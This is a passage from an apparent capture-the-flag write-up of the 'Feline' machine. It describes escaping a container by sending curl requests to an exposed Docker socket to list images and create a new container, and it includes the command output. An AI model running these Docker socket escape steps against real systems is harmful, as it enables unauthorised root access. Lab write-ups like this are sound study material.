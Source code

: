 <img src="/assets/img/ChallengeVMs/Feline/img8.png"  style="width: 70%" />
</p>

Using this I did get a reverse shell, the only issue is that it was on the host I already had access to and since I was using the same container that I already had access to, it provided me with the same access. In order to exploit this correctly to obtain the root shell, I needed to create my own container. Since I didn't have any containers available, I needed to create one. I was able to set the new container to use the sandbox image which was determined using the following command: 

```json
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```json
root@2d24bf61767c:/var/run# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

Based on the information above, there was a repository named `sandbox:latest`. I could use this repository to create my own version:

```json
curl -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\": \"sandbox\"}" -H 'Content-Type: application/json' http://localhost/containers/create
```
```json
{"Id":"c18982f5857810c60deafe7fbacfec4e8569e04bf42853289b02ffdf5a121144","Warnings":[]}
```

